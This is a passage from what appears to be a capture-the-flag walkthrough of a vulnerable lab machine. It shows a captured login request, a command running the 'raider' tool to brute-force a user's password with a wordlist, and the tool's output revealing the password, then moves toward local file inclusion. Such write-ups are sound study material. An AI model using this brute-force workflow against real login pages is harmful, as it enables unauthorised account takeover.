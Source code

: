 I saved this into header.txt and modified the password value to ^%letmein^% as described by raider. 

```
# cat header.txt 
POST /super_secret_login_path_muhahaha/login.php HTTP/1.1
Host: 172.16.229.151
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:24.0) Gecko/20140610 Firefox/24.0 Iceweasel/24.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.229.151/super_secret_login_path_muhahaha/
Cookie: PHPSESSID=2bcc5t4g72043ronu46mtkmi32
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

username=jack&password=^%letmein^%&mysubmit=Login
```

With the wordlist ready and the HTTP headers captured, I passed them to raider and let it do its magic:

```
# python raider.py --wordlist ~/hell/wordlist.txt --header ~/hell/header.txt -s 2 --keyword Failed --attack 1
```

After a couple of minutes, I was able to obtain the password for jack:

```
[-] Size: 220	Response Code: 200	Req ID: 13876
[-] Size: 220	Response Code: 200	Req ID: 13877
[-] Size: 220	Response Code: 200	Req ID: 13878
[+] Size: 239	Response Code: 200	Req ID: 13879	Success!! Fuzz Value: g0tmi1k69
```

I logged in and was presented with a set of folders:  

![](/images/2014-07-15/6.png)

### Local file inclusion

Of these folders, Personal Folder and Notes were the most interesting. The Notes folder allowed the user to create a text file that was stored in some temporary directory. 
